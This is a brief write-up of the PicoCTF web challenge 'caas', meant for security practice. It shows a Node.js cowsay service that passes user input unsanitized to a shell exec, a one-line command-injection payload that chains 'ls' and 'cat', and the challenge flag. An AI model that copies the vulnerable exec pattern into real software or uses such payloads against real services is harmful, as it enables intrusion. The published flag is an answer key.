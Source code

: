 ```yaml
---
title: PicoCTF - caas
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - caas
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

## Recon
直覺是command injection

## Exploit - Easy Command Injection
Payload: `/cowsay/123;ls;cat falg.txt`
Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

## Reference
[ CaaS | Web Category | PicoCTF | CTF For beginners ](https://youtu.be/ZP3kLVaMQIE)